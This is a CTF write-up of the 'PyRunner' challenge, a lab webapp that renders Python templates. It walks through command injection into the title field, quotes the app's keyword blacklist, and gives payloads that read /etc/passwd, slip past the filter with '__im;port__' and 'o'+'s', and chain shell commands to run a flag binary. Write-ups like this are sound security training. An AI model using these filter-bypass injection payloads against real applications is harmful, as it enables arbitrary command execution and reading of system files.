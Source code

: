 # STACK The Flags CTF Writeup

**STACK The Flags** (*Category 2: University, Polytechnics*)

Link: https://ctf.hackthebox.com/event/747

Challenge: PyRunner

![](./images/Pasted%20image%2020221203160910.png)

---

## Target

The target is `157.245.52.169:32757`, which seems to serve a simple webapp that executes Python templates:

![](./images/Pasted%20image%2020221203010534.png)

Interacting with the dropdown displays another template, `Webserver Template Duplicate`, which—when selected—renders an **Arguments** section below the (disabled/non-editable) template source, allowing us to create new templates with a `title`, `host` and `port`:

![](./images/Screenshot%202022-12-03%20at%201.10.02%20AM.png)

Ok, so this challenge seems like it will deal with **command injection**, specifically—injecting a malicious command into one of those input fields.

### Files

The challenge also provided us with the source code for the webapp:

![](./images/Pasted%20image%2020221203060133.png)

Some files of interest:

![](./images/Pasted%20image%2020221203012946.png)
![](./images/Pasted%20image%2020221203013012.png)

So this is _definitely_ a command injection / arbitrary command execution challenge. But first, I have to figure out which of the 3 input fields is vulnerable to injection.

When a newly-created template is run, the server calls the `run_template` function, which extracts the arguments passed through the 3 input fields and passes them through a rudimentary word filter which replacing certain blacklisted plaintext strings with empty strings, `""`.

```py
contents.replace(f"<{argument}>", textfilter(data["arguments"][argument]))
```

```py
# textfilter function pretty much just replaces instances
# of the following strings with an empty string, ""
disallowed = ["import", ";", "\n", "eval", "exec", "os"]
# system isn't blacklisted...
```

I find that `title` is the only passed argument that gets printed out in the server-hosted `template.py` file (line 11), so this will be my target input to inject commands into.

```py
print("Webserver: <title>")
#                  ^^^^^
```

So the general format of the injection will look something like `test>", {injection}) #` , which will turn the line above into:

```py
print("Webserver: <test>", {injection}) #")
```

### Command Injection

First I tried a simple injection just to check if I can get the server to perform some sort of calculation, to confirm that the injection was successful:

`test>", 1+2) #`

![](./images/Pasted%20image%2020221203015436.png)

_Niiice_, arbitrary command execution. Now to figure out how to spit out stuff that is actually useful.

---

`test>", system("ls")) #`

Since `system` isn't blocked, I can theoretically use it for command execution, however it isn't imported in `template.py`, so (predictably) this injection fails for this exact reason:

![](./images/Pasted%20image%2020221203014700.png)

Maybe I can import it inline? Going for a `system` call seems like the obvious approach, however, `;` are filtered out, as well as `import`, so there's some thinking to be done before I can use it.

---

After some time studying python command injection, I found that imports can be done via many alternative syntaxes, specifically:

- `__import__("os").system("ls")`
- `imp.os.system("ls")`

These might come in handy, however they still fail since either `import` or `os` is still present in the command string:

`test>", __import__('os').system('ls -la')) #>")`

![](./images/Pasted%20image%2020221203023737.png)

---

Time to switch gears, let's see what I can do with other commands which aren't blacklisted.

`test>", open("/etc/passwd").read()) #>")`

![](./images/Pasted%20image%2020221203030819.png)

_Very interesting_. Ok, so open seems promising, but I'm not sure if it's necessarily useful since I don't know
the filename or location of the flag... (Hindsight: turns out I _did_ know via included `Dockerfile`, but I ended up
going with a different approach.)

---

### What about the filenames?

Every created template is saved with a randomly generated filename:

![](./images/Pasted%20image%2020221203032208.png)

and the server sends back a response containing a computed output by a **juicy** `subprocess.run()` call that can run _anything_ in the `/scripts` directory…

![](./images/Pasted%20image%2020221203032329.png)

![](./images/Pasted%20image%2020221203032250.png)

Maybe I can write a malicious script to the location of an existing template?

But how do I get around the random `filename` generation? On second thought, this doesn't seem like the right approach (hindsight: it wasn't).

---

### Back to inline import approach

After messing around with some more ideas on how to bypass the blacklist, I discovered that I can get
the string `"import"` through the filter by sticking a `;` in it, however it didn't work for `"os"`—which I discovered
I can bypass by simply concatenating `“o” + “s”`:

`test>", __im;port__('o'+'s').system('ls -la')) #>")`

![](./images/Screenshot%202022-12-03%20at%204.17.54%20AM.png)

Very close! Now it's just a matter of finding the flag in the filesystem. Since semicolons are blacklisted (filtered out), let's try using `&&` to chain commands:

`test>", __im;port__('o'+'s').system('cd .. && ls -la')) #>")`

![](./images/Pasted%20image%2020221203043442.png)

Finally, I found a file named `readflag`, however I can't seem to `cat` it out, nor can I `file readflag` its contents to even identify what it is. So using `stat`, I get some more information about this `cat`-immune file:

`test>", __im;port__('o'+'s').system('cd ../&& ls -la && stat readflag')) #>")`

![](./images/Pasted%20image%2020221203045642.png)

Very close! Now it's just a matter of finding the flag in the filesystem. Since semicolons are blacklisted
(filtered out), let's try using `&&` to chain commands:

`test>", __im;port__('o'+'s').system('cd ../&& ls -la && stat readflag && od -c -tx1 readflag')) #>")`

![](./images/Pasted%20image%2020221203050617.png)

Finally, I found a `readflag` file, which (given the included `Dockerfile`) we know is an executable binary.

![](./images/Pasted%20image%2020221204195414.png)

### Final payload:

```
test>",__im;port__('o'+'s').system('cd ../&& ls -la && stat readflag && ./readflag')) #
```

![](./images/Pasted%20image%2020221204210105.png)

### 🏴‍☠️ Flag:

```
STF22{4ut0m4t3d_c0mm4nd_1nj3ct10n}
```
